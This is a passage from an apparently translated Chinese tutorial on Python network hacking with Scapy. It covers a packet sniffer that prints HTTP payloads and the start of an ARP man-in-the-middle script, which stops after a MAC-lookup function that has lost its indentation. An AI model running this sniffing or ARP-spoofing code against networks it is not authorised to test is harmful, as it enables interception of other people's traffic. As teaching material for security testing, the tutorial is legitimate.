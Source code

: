 这将从变量中指定的接口开始嗅探数据包。

6.  现在我们可以使用`sudo`权限启动脚本：

```
sudo python3 scapy-sniffer.py    
```

输出结果如下：

![](../images/00045.jpeg)

7.  我们可以按如下方式打印嗅探包中的`payload`：

```
if TCP in packet:
      try:
          if packet[TCP].dport == 80 or packet[TCP].sport == 80:
                print(packet[TCP].payload)
      except:
           pass
```

# 带 Scapy 的 ARP 中间人工具

中间人攻击意味着攻击者位于源和目标之间，通过攻击系统传递所有数据。这将允许攻击者查看受害者的活动。我们可以在 Scapy 的帮助下用 Python 编写一个小脚本来运行中间人攻击。

# 怎么做。。。

为了更好地理解，我们可以按照以下步骤编写脚本：

1.  创建一个名为`mitm-scapy.py`的新文件，并在编辑器中打开它。
2.  像往常一样，导入所需的模块：

```
from scapy.all import *
import os
import time
import sys  
```

在这里，我们导入 Scapy 以及脚本中需要的`os`、`time`和`sys`模块。

3.  现在我们必须为脚本定义变量。我们可以通过 Python 2.x 中的`raw_input`方法或 Python 3.x 中的`input()`方法获得变量详细信息，而不是在脚本中定义：

```
interface = "en0"
source_ip = "192.168.1.1"
destination_ip = "192.168.1.33"  
```

4.  由于我们必须获得源和目标的 MAC 地址才能创建 ARP 响应，因此我们将使用 ARP 请求请求并解析响应以获得 MAC 地址。现在我们必须创建一个函数来获取 MAC 地址：

```
def getMAC(IP, interface):
answerd, unanswered = srp(Ether(dst = "ff:ff:ff:ff:ff:ff")/ARP(pdst = IP), timeout = 5, iface=interface, inter = 0.1)    
for send,recieve in answerd:
return recieve.sprintf(r"%Ether.src%")  
```

